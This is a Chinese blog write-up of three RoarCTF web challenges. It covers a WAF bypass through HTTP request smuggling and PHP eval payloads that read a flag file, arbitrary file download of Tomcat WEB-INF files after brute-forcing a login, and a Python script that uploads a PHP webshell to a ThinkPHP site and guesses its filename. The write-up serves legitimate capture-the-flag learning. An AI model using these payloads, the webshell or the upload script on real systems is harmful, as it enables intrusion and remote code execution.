<!--yml
category: 未分类
date: 2022-04-26 14:48:42
-->

# RoarCTFweb题解_qq_41575340的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41575340/article/details/102657091](https://blog.csdn.net/qq_41575340/article/details/102657091)

# 前言

参加了RoarCTF,题目质量挺好的，学到了一些东西。在这里复现记录一下。

## easy_calc

打开题目发现是一个计算器的功能，感觉计算器已经出过好多次了。查看源代码，发现了calc.php

```
 <?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

这里过滤了好多的东西，和国赛的一道题很像，但是直接输入`num=phpinfo()`不能够解析，通过上面的代发也没有对其进行拦截，猜测应该是存在waf对其进行拦截。

过waf的两种方法：
**方法一：**
利用http走私：
原理可以看 [参考文章](https://paper.seebug.org/1048/) 这篇文章。

构造的请求头信息：

```
POST /calc.php?num=phpinfo(); HTTP/1.1
Host: node3.buuoj.cn:28057
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Content-Length: 5//利用http走私

num=1 
```

能够执行phpinfo()的命令。

我的理解php中$_request 相同字段名优先接收post参数，就是这个同时向服务器传递get和post请求，而waf那里只处理了post请求的值，从而使get请求的值绕过了waf的拦截。

**方法二：**

利用php的一个字符串解析特性绕过bypass。[文章链接](https://www.freebuf.com/articles/web/213359.html)

一些php的特性的分析：

| 输入 | 输出 |
| --- | --- |
| %20news_id | news_id |
| news%20id | news_id |
| news%00id | news |
| news[id | news_id |
| news.id | news_id |
| news+id | news_id |
| news_id%20 | news_id_ |

我么可以想到在num前面加%20来进行绕过


绕过waf之后，我们发现


禁用了一些危险函数，这里得到flag的方法也有几种：

**方法一：**

利用一些php的文件操作函数：

*   getcwd — 取得当前工作目录
*   dirname(string `$path`) — 返回 path 的父目录
*   scandir — 列出指定路径中的文件和目录

payload:

```
? num=var_dump(scandir(dirname(dirname(dirname(getcwd()))))); 
```



在根目录发现flag的位置`/f1agg`
由于

```
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^']; 
```

过滤了`/,'`等字符不能够直接`var_dump(file_get_contents('/f1agg'))`所以想到了利用编码来绕过。`var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`可以得到flag.



**方法二：**

这个计算器特写向国赛初赛的一道题，这个可以采用国赛拿到题目的做法来做题。

`base_convert`函数可以在任意进制之间转换数字，可以返回任意字母，需要注意它无法返回`_ *`等特殊字符



```
D:\phpStudy\php\php-5.5.38
λ php -r "echo base_convert('system',36,10)";
1751504350
D:\phpStudy\php\php-5.5.38
λ php -r "echo base_convert('ls',36,10)";
784
D:\phpStudy\php\php-5.5.38 
```

`? num=base_convert(1751504350,10,36)(base_convert(784,10,36))`可以成功执行phpinfo();



我们发现`dechex`函数可以把10进制转换为16进制，我们可以再异或出`hex2bin`，来获取任意ASCII字符

```
D:\phpStudy\php\php-5.5.38
λ php -r "echo base_convert('scandir',36,10)";
61693386291
D:\phpStudy\php\php-5.5.38
λ php -r "echo hex2bin(dechex('47'))";
/
D:\phpStudy\php\php-5.5.38
λ php -r "echo hex2bin(dechex('46'))";
.
D:\phpStudy\php\php-5.5.38
λ php -r "echo hex2bin(dechex('32'))";
 这是空格 
```

可以构造`var_dump(base_convert(61693386291,10,36)(hex2bin(dechex(46)).hex2bin(dechex(47))))`相当于`car_dump(scandir(./))`

可以一级一级的查看目录，最终在根目录找到了flag的位置。`var_dump(base_convert(61693386291,10,36)(hex2bin(dechex(47))))`
文件名为`f1agg`,可以构造出`readfile(/f1agg)`来读取文件
构造为：`base_convert(2146934604002,10,36)(hex2bin(dechex(47)).base_convert(25254448,10,36))`就可以得到flag文件。

## easy_java

打开页面是一个登陆框


下面有一个help的链接，点进去发现没有东西，不能够下载文件，后来发现更改请求方式为post就可以下载文件了。


因为文件名是可控的所以我感觉可以实现任意文件下载。

对于登陆框尝试几次无果之后，选择了暴力破解，得到密码`admin888`


但是登陆进去发现啥也没有，但是在help页面可以读取任意文件：


在做测试时，发现了一些敏感信息的泄露：
[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-a97QOy1q-1571620135213)(https://s2.ax1x.com/2019/10/18/Kel2hd.png)]

我们可以得到这个的绝对路径，以及一些应用的版本`Apache Tomcat/8.5.24`

**WEB-INF/web.xml泄露**

WEB-INF是Java的WEB应用的安全目录。如果想在页面中直接访问其中的文件，必须通过web.xml文件对要访问的文件进行相应映射才能访问。

```
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。

/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中

/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件

/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。

/WEB-INF/database.properties：数据库配置文件 
```


得到了一个和flag有关的类文件。根据其文件的分类规则我们推出其文件的位置`WEB-INF/classes/com/wm/ctf/FlagController.class`



得到了一串可以的字符串，base64解码之后就是flag。

## simple_upload

是一道代码审计题目，很清晰的看出是一个ThinkPHP的站

```
 <?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }

        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```

给出了文件上传的地址和信息`$upload->rootPath = './Public/Uploads/';`，访问发现没有WEB页面上传的点，应该是用脚本上传
对这里的上传页面，由于这是一个thinkphp的站点，于是去看了thinkphp的内容，[参考文章](https://www.kancloud.cn/manual/thinkphp/1713)

这里对控制器说明比较详细。
一般来说，ThinkPHP的控制器是一个类，而操作则是控制器类的一个公共方法。

下面就是一个典型的控制器类的定义：

```
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function hello(){
        echo 'hello,thinkphp!';
    }
} 
```

`Home\IndexController`类就代表了Home模块下的Index控制器，而hello操作就是`Home\IndexController`类的hello（公共）方法。

当访问 `http://serverName/index.php/Home/Index/hello` 后会输出：

```
hello,thinkphp! 
```

于是可以判断这个文件上传类的调用地址为：`/index.php/home/index/upload`。

不过限制了`.php`，仔细看才发现，代码只会过滤 `$_FILES['file']` 中的文件。所以可以上传两个文件，一个name为file的正常图片，另一个name为其他的webshell。
但是最后会打印出 `$_FILES['file']` 的文件地址，而不会打印我们shell的地址，但是我们发现最后他对文件命名用`uniqid()`函数来命名的，这个函数是根据时间生成文件名，两个文件上传时间近可以通过爆破得到我们上传的shell的文件名。

```
import requests
import re
import time
import sys

reload(sys)
sys.setdefaultencoding("utf8")

url = 'http://2b9a88ad-f688-4ede-b6e3-ac18aae091f2.node3.buuoj.cn'

url_1 = url + "/index.php/home/index/upload"

file = {"file":("a.txt",'a'), "file1":("a.php", '<?php eval($_GET["a"]);')}

r = requests.post(url=url_1,files=file)

print r.content

t1 = r.text.split("/")[-1].split(".")[0]
t1 = int(t1,16)

j = t1 

while True:
    path = url + "/Public/Uploads/2019-10-19/%s.php" % hex(j)[2:-1]
    try:
        r = requests.get(path, timeout=1)
    except:
        continue
    if r.status_code != 404:
        print path
        print r.text
        break
    print j, hex(j)[2:-1], r.status_code
    j -= 1 
```

得到flag
